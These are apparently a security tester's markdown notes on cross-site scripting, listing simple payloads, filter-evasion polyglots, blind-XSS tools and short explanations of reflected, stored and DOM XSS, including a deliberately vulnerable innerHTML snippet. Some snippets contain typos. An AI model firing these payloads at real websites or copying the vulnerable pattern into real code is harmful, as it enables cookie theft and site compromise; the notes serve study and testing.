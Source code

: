 - Simple example of XSS:
```
<script>alert(document.cookie(1))</scipt>
```
- Simple second example:
Escape ```<input value="">``` you start with ```"">``` then payload
- Simple third example appearing in tab name:
Assigning field to ```<title>``` close that assignment and run payload ```<\title>```
- Simple fourth example :
Appearing in address bar with html encode:
Script assign var name = you able to close '; and adding // section ';+alert(1)// rest commented
Check OWASP XSS filter evasion cheatsheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
Javascript events (usefull)
OnError
```
<img src=x onError=alert(document.cookie)>
```

#### Tools
beef
Polyglots - https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot 

#### Blind XSS frameworks
Sleepy puppy - https://github.com/Netflix-Skunkworks/sleepy-puppy
XSS hunter - https://github.com/mandatoryprogrammer/xsshunter
Ground control - https://github.com/jobertabma/ground-control


```
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//

'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->"></script><script>alert(1)</script>"><img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">

javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*

javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a

javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/

javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*

javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*

javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//

javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*

--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*

/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*

javascript://--></title></style></textarea></script><svg "//' onclick=alert()//

/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e`
```
## XSS Mindmap
![[XSS mindmap.png]]


#### Reflected XSS
When web app produces error message when you type in wrong user name and passwd
( example.com/login.php?error=The+email+or+password+you+entered+is+not+valid.+Please+try+again.) 

in error could insert javascript
error=<script>alert("TEST")</script>

#### Stored XSS
user input get stored in database

#### DOM XSS
user input supplied input passes it into a JavaScript function that modify document object model
```
<html>
<h1> You Searched for:</h1>
<div id ="searchquery"> </div>
<script>
var keyword = location.search.substring(3);
document.querySelector('searchquery').innerHTML = keyword;
<script>
</html>
```
#### STORED XSS via SVG file

